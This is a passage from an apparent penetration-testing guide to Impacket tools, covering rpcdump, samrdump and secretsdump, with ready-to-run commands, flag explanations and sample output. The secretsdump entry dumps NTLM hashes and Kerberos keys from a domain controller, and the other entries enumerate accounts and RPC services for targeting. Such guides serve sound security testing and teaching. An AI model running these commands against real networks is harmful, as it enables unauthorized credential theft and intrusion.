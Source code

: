 **Example Output**:
```
[*] Subkeys: Microsoft, Policies
```

**Use Case**: Extracts or modifies registry data.[](https://www.hackingarticles.in/impacket-guide-smb-msrpc/)

### 25. rpcdump.py
**Purpose**: Dumps RPC endpoints via the Endpoint Mapper.

**Usage Example**:
```bash
impacket-rpcdump -dc-ip 192.168.1.100 -port 135 example.local/user1:Password123@192.168.1.101
```
**Flag Explanations**:
- `-dc-ip 192.168.1.100`: Domain controller IP.
- `-port 135`: RPC Endpoint Mapper port.
- `example.local/user1:Password123@192.168.1.101`: Target and credentials.

**Example Output**:
```
[*] Endpoint: ncacn_ip_tcp:192.168.1.101[49666]
```

**Use Case**: Enumerates RPC services for targeting.[](https://www.kali.org/tools/impacket/)

### 26. samrdump.py
**Purpose**: Dumps SAMR data (e.g., users, groups) from a target system.

**Usage Example**:
```bash
impacket-samrdump -dc-ip 192.168.1.100 -csv example.local/user1:Password123@192.168.1.101
```
**Flag Explanations**:
- `-dc-ip 192.168.1.100`: Domain controller IP.
- `-csv`: Outputs data in CSV format.
- `example.local/user1:Password123@192.168.1.101`: Target and credentials.

**Example Output**:
```
Name,Type
administrator,User
guest,User
```

**Use Case**: Enumerates AD accounts and groups.[](https://www.kali.org/tools/impacket/)

### 27. secretsdump.py
**Purpose**: Dumps SAM, LSA, and DIT secrets (e.g., NTLM hashes, Kerberos keys).

**Usage Example**:
```bash
impacket-secretsdump -dc-ip 192.168.1.100 -just-dc example.local/user1:Password123@192.168.1.101
```
**Flag Explanations**:
- `-dc-ip 192.168.1.100`: Domain controller IP.
- `-just-dc`: Dumps only domain controller data (e.g., via DRSUAPI).
- `example.local/user1:Password123@192.168.1.101`: Target and credentials.
